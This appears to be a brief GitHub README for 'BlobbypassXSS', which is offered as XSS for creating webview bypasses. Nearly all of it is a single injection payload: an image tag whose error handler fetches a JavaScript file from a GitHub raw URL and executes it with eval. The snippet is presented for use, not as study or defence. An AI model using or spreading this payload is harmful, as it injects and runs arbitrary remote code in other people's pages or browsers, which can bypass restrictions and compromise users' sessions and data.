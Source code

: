 #### BlobbypassXSS
# A little bit of XSS that can be used for creating webview bypasses
```
<img src=# onerror='fetch("https://raw.githubusercontent.com/Blobby-Boi/BlobbypassXSS/main/blobbypass.js").then(r=>r.text()).then(c=>eval(c)) '>
```
